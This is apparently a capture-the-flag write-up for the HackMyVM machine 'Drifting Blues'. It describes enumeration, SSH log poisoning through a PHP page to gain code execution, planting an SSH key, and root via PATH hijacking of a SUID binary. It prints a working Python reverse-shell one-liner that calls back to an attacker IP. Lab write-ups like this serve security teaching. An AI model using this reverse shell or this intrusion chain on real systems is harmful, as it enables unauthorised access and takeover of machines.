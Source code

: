 # HackMyVM-Drifiting Blues

## Netdiscover

<img src="https://imgur.com/FYGhj3B.png"/>

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-09 00:43 PKT
Nmap scan report for 192.168.1.9
Host is up (0.00034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA)
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA)
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/eventadmins
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:EE:16:C7 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.33 seconds

```

We have 2 ports open http and ssh and we have robots.txt on the webserver

## PORT 80 (HTTP)

<img src="https://imgur.com/ivQrpgQ.png"/>



## Dirbuster


<img src="https://imgur.com/Sb5Fl3I.png"/>

<img src="https://imgur.com/nd3Epkj.png"/>

Running dirbuster we can see there is `robots.txt` , `secret` and `wp-admin` which tells that there is wordpress running on the machine and these directories are interesting to us.

We visit `robots.txt`

<img src="https://imgur.com/fyBJ5Kg.png"/>

From there we can see it doesn't allow `/eventadmins` to be shown on webcrawlers

<img src="https://imgur.com/Wn7Q9Hs.png"/>

So `john` and `buddyG` might be the two usernames also visiting `littlequeenofspades.html`

<img src="https://imgur.com/Np06NyK.png"/>

We would find a base64 encoded text

<img src="https://imgur.com/mORSKK2.png"/>

On further decoding the text

<img src="https://imgur.com/DEUxRyb.png"/>

We will get a page `adminsfixit.php`

<img src="https://imgur.com/olGutxS.png"/>

Here we can see ssh authorization log which logs about the users when anyone tries to login with a username and gives success or failed attempt message


<img src="https://imgur.com/WBmHoGT.png"/>

As you can see when we interact with SSH it gets log I tried to login with `arz` and it got logged.Now let's try to add php  `GET` paramter which will test if we can get Remote Code Execution or not 

<img src="https://imgur.com/mcfHCLo.png"/>


<img src="https://imgur.com/jElU6gE.png"/>

And it did worked

***Note : My private IP was changed due to a change of network also if your doing something with special characters bash is the way to go , we need to be careful with special characters when using zsh shell. ***


Now I'll check for python if it is installed with `which python` 

<img src="https://imgur.com/g0PT3iv.png"/>

Great now I'll setup the python reverse shell 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.43.129",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


<img src="https://imgur.com/VMRNQmB.png"/>

And we are in !!!

Stabilize the shell with python

<img src="https://imgur.com/gOSmeAg.png"/>

<img src="https://imgur.com/RY1QIq3.png"/>

This might work differently in zsh shell

<img src="https://imgur.com/RPEQvvZ.png"/>

<img src="https://imgur.com/F4PjV8R.png"/>

Now we find a user named `robertj` and we can write to the `.ssh` directory so generate a ssh key pair with `ssh-keygen` on your host machine and transfer it through wget or python server


<img src="https://imgur.com/tw7iV1X.png"/>

<img src="https://imgur.com/IAKJ0ku.png"/>

As you can see we are hosting the public and private key so we need only public on the target machine and private with us to communicate with it.Copy the contents of `id_rsa.pub` move to target machine and rename it to `authorized_keys` in the `.ssh` folder.

<img src="https://imgur.com/xuw7Wyq.png"/>


## Privilege Escalation

Now let's find if there are SUID binaries on the box

<img src="https://imgur.com/PEcAq9e.png"/>

Through this find command we found a binary named `getinfo` which is not normal to have SUID it belongs to user `root` and group `operator` looking our UID and GID we are in operators group so we can do something with it.

On running the binary 

<img src="https://imgur.com/Hg838jO.png"/>

<img src="https://imgur.com/prHoMxR.png"/>

It basically is running the following commands in the binary

<img src="https://imgur.com/UjVIrzj.png"/>

<img src="https://imgur.com/0vpc9Sd.png"/>

<img src="https://imgur.com/SBszTVR.png"/>

So here what we can do is make a file with the name of `ip` put `/bin/bash` in it make it executable and change the PATH variable which is known as "Exploiting PATH variable"

<img src="https://imgur.com/5d2V89O.png"/>

<img src="https://imgur.com/EMI4TmV.png"/>

And now when we'll run the binary

<img src="https://imgur.com/hd7xEj8.png"/>

We will be root !!!
